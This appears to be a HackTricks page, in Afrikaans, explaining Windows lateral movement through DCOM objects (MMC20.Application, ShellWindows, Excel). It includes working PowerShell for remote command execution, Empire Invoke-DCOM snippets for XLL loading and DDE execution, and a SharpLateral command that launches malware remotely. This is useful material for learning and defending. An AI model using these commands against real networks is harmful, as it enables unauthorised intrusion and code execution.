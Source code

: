 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## MMC20.Application

**Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike pos van [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

Distributed Component Object Model (DCOM) objekke bied 'n interessante vermoë vir netwerk-gebaseerde interaksies met objekke. Microsoft bied omvattende dokumentasie vir beide DCOM en Component Object Model (COM), beskikbaar [hier vir DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) en [hier vir COM](<https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363(v=vs.85).aspx>). 'n Lys van DCOM toepassings kan verkry word met die PowerShell opdrag:
```bash
Get-CimInstance Win32_DCOMApplication
```
Die COM objek, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), stel die skripting van MMC snap-in operasies in staat. Opmerklik is dat hierdie objek 'n `ExecuteShellCommand` metode onder `Document.ActiveView` bevat. Meer inligting oor hierdie metode kan [hier](<https://msdn.microsoft.com/en-us/library/aa815396(v=vs.85).aspx>) gevind word. Kontroleer dit wat dit uitvoer:

Hierdie funksie fasiliteer die uitvoering van opdragte oor 'n netwerk deur 'n DCOM toepassing. Om met DCOM op afstand as 'n admin te kommunikeer, kan PowerShell soos volg gebruik word:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Hierdie opdrag maak verbinding met die DCOM-toepassing en keer 'n instansie van die COM-objek terug. Die ExecuteShellCommand-metode kan dan aangeroep word om 'n proses op die afstandsbediener uit te voer. Die proses behels die volgende stappe:

Kontroleer metodes:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Kry RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike pos [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

Die **MMC20.Application** objek is geïdentifiseer as wat nie eksplisiete "LaunchPermissions" het nie, wat standaard na toestemmings wat Administrators toegang gee, terugval. Vir verdere besonderhede kan 'n draad ondersoek word [hier](https://twitter.com/tiraniddo/status/817532039771525120), en die gebruik van [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET vir die filtrering van objekte sonder eksplisiete Launch Permission word aanbeveel.

Twee spesifieke objekte, `ShellBrowserWindow` en `ShellWindows`, is beklemtoon weens hul gebrek aan eksplisiete Launch Permissions. Die afwesigheid van 'n `LaunchPermission` registrasie-invoer onder `HKCR:\AppID\{guid}` dui op geen eksplisiete toestemmings nie.

### ShellWindows

Vir `ShellWindows`, wat 'n ProgID ontbreek, fasiliteer die .NET metodes `Type.GetTypeFromCLSID` en `Activator.CreateInstance` objekinstansie met behulp van sy AppID. Hierdie proses benut OleView .NET om die CLSID vir `ShellWindows` te verkry. Sodra dit geïnstantieer is, is interaksie moontlik deur die `WindowsShell.Item` metode, wat lei tot metode-aanroep soos `Document.Application.ShellExecute`.

Voorbeeld PowerShell-opdragte is verskaf om die objek te instansieer en opdragte op afstand uit te voer:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Laterale Beweging met Excel DCOM-objekte

Laterale beweging kan bereik word deur DCOM Excel-objekte te benut. Vir gedetailleerde inligting is dit raadsaam om die bespreking oor die benutting van Excel DDE vir laterale beweging via DCOM op [Cybereason se blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom) te lees.

Die Empire-projek bied 'n PowerShell-skrip, wat die gebruik van Excel vir afstandkode-uitvoering (RCE) demonstreer deur DCOM-objekte te manipuleer. Hieronder is snitte van die skrip beskikbaar op [Empire se GitHub-bewaarplek](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), wat verskillende metodes toon om Excel vir RCE te misbruik:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Outomatiseringstoestelle vir Laterale Beweging

Twee gereedskap word beklemtoon om hierdie tegnieke te outomatiseer:

- **Invoke-DCOM.ps1**: 'n PowerShell-skrip wat deur die Empire-projek verskaf word en die oproep van verskillende metodes vir die uitvoering van kode op afstandmasjiene vereenvoudig. Hierdie skrip is beskikbaar by die Empire GitHub-bewaarplek.

- **SharpLateral**: 'n Gereedskap ontwerp om kode op afstand uit te voer, wat gebruik kan word met die opdrag:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Outomatiese Gereedskap

- Die Powershell-skrip [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1) maak dit maklik om al die kommentaar maniere te aktiveer om kode op ander masjiene uit te voer.
- Jy kan ook [**SharpLateral**](https://github.com/mertdas/SharpLateral) gebruik:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Verwysings

- [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
- [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{{#include ../../banners/hacktricks-training.md}}
